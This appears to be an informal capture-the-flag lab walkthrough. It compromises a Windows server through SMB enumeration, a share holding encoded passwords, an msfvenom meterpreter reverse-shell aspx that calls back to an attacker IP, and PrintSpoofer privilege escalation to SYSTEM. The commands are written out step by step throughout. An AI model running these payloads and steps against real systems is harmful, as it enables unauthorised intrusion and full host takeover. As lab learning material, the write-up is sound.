 1. did the nmap scan. found smb on 445 and RDP on 3389

2. enumerating SMB port
run smb client

[smbclient -L ip -p 445]
[locate .nse |grep smb-enum] - run these script using nmap scripts[nmap --script=]

after the enumerating we can find out that there is a share named nt4wrksv.  then we can log into it and see the content. 

[smbclient //ip/nt4wrksv] or [smbclient \\\\ip\\nt4wrksv]

we found password.txt in this share. its encoded using base64. lets be there later.

__ check whether users and passwords are valid __
use psexec.py

[python3 psexec.py 'bob:password@ip']

evil-winrm also can be used. but didn't work in this machine

[evil-winrm --ip ip --user username --password password]

3. run vulnerability scan using nmap script.

[nmap --script vuln -Pn -p ports ip] - -Pn - doesn't check whether ports are exist.

we found (ms17-010) remote code execution. 
using searchploit we can get eternalblue exploit. 

[searchsploit eternalblue]

lets mirror windows server 2016 exploit to current working dir.

[searchsploit -m ]


# first step

i went for this step. it seems easy. i created a revese shell using msfvenom and uploaded it to smb share and triggered it using web. 
creating the reverse shell. 

[msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.50.72 lport=4444 -f aspx -o shell.aspx]

also pentest.ws site can be used to create the same path to get the reverse shell

[ https://pentest.ws/tools/venom-builder ]

put the shell in shares. 
[smbclient //ip/sharename] then [put shell.aspx]

creating the listner 

[kali@kali:/data/vpn$ msfconsole -q
msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.8.50.72
lhost => 10.8.50.72
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run]

triggering the shell.aspx

[curl http://ip:49663/sharename/shell.aspx]

then it will connect to the server. go to the bob desktop. there will be the user flag. 

[cd c:/users/bob/Desktop]


# Root priviledge 

first use shell command u idiot.

[shell]

now see the priviledges 

[whoami /priv]

Now that we have shell access we can use the whoami /priv command to check our user privileges. We see that we have SeImpersonate privileges, which can commonly be used to escalate using a potato attack, or with incognito if impersonation tokens exist. However, DCOM is disabled on this server which prevents potato attacks, and there are no tokens to impersonate.
(i don't know what this is)

There is a newer exploit that came about several months ago called [Printspoofer](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) that exploits a vulnerability in Windows where certain service accounts are required to run with elevated privileges utilizing the SeImpersonate privilege. We see that we are the iis apppool\defaultapppool service account user, which should allow us to elevate using the Printspoofer exploit.

upload printspoofer to the smb share. 

now go to this directory

[cd c:/intepub/wwwroot] now u can see the smb share in it. go to it. and run the exe file.

[PrintSpoofer -i -c cmd] - to gain root priviledges .

[whoami] - will show nt authority/system.

[cd c:/users/administrator/desktop/] there will be root.txt

[type root.txt] - will read it. cat command doesn't work


